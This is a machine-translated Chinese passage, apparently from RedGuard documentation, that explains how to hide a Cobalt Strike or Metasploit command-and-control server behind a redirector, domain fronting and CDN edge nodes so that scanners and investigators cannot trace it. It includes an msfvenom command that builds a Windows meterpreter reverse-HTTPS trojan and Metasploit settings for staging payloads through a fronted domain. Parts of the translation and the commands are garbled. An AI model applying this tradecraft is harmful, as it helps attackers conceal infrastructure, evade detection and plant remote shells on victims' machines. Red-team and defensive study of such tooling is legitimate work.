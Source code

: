 ## 网络空间搜索地图

如下图所示，当我们的拦截规则设置为 DROP 时，空间映射系统探测器将多次探测我们反向代理端口的/目录。理论上，映射发送的请求数据包被伪装成正常流量，如图所示。但几次尝试后，由于请求包的签名不符合 RedGuard 的发布要求，都被 Close HTTP 响应。最终在测绘平台上显示的效果是反向代理端口没有打开。

下图所示的流量是指当拦截规则设置为重定向时，我们会发现当映射探针收到响应时，会继续扫描我们的目录。User-Agent 是随机的，看似符合正常的流量请求，但都成功屏蔽了。

## 畴前

RedGuard 支持域名前置。在我看来，有两种呈现形式。一种是使用传统的域前置方式，在全站加速回本地址设置我们反向代理的端口即可实现。在原有的基础上，在域名前置中加入了流量控制的功能，可以按照我们设定的设置重定向到指定的 URL，让它看起来更真实。需要注意的是，HTTPS 主机头的 RedGuard 设置必须与站点范围加速的域名一致。

在单人战斗中，我建议可以使用上述方法，在团队任务中，也可以通过自建“域前置”来实现。

在自建域前端，保持多个反向代理端口一致，主机头一致指向后端真实的 C2 服务器监听端口。这样我们真正的 C2 服务器就可以很好的隐藏起来，反向代理的服务器只能通过配置防火墙来打开代理端口。

这可以通过多个节点服务器来实现，并在 CS 监听器 HTTPS 在线 IP 中配置我们节点的多个 IP。

## 边缘节点

RedGuard 22.08.03 更新了边缘主机连接设置——自定义内网主机交互域名，边缘主机使用域前端 CDN 节点交互。这就使得两台主机之间的信息不对称，更加难以溯源，难以排查故障。

## 钴罢工

如果上述方法出现问题，实际在线的 C2 服务器无法被防火墙直接拦截，因为反向代理中实际的负载均衡请求是由云服务器厂商的 IP 发出的。

在单机战斗中，我们可以在云服务器防火墙上设置拦截规则。

然后将代理指向的地址设置为 https://127.0.0.1:4433。

**{ " 360 . net ":" http://127 . 0 . 0 . 1:8080 "," 360 . com ":" https://127 . 0 . 0 . 1:4433 "}**

而且因为我们的基础验证是基于 HTTP 主机请求头的，所以我们在 HTTP 流量中看到的也和域前置的方法一样，只是成本更低，只需要一台云服务器。

## Metasploit

**生成木马**

**$ MSF venom-p windows/meter preter/reverse _ https LHOST = VPS IP LPORT = 443 httphosteader = 360 . com
-f exe-o ~/path/to/payload . exe**

当然，作为域名前置场景，你也可以配置你的 LHOST 使用厂商 CDN 的任意域名，注意设置 HttpHostHeader 匹配 RedGuard。

**setg OverrideLHOST 360.com
setg OverrideLPORT 443
setg OverrideRequestHost true**

需要注意的是，`**OverrideRequestHost**`设置必须设置为`**true**`。这是由于 Metasploit 在为登台有效负载生成配置时，默认情况下处理传入 HTTP/S 请求的方式中的一个功能。默认情况下，Metasploit 使用传入请求的`**Host**`头值(如果存在)进行第二阶段配置，而不是使用`**LHOST**`参数。因此，构建阶段被配置为将请求直接发送到您的隐藏域名，因为 CloudFront 在转发请求的`**Host**`头中传递您的内部域。这显然不是我们所要求的。使用`**OverrideRequestHost**`配置值，我们可以强制 Metasploit 忽略传入的`**Host**`头，而使用指向原始 CloudFront 域的`**LHOST**`配置值。

[**Download**](https://github.com/wikiZ/RedGuard)
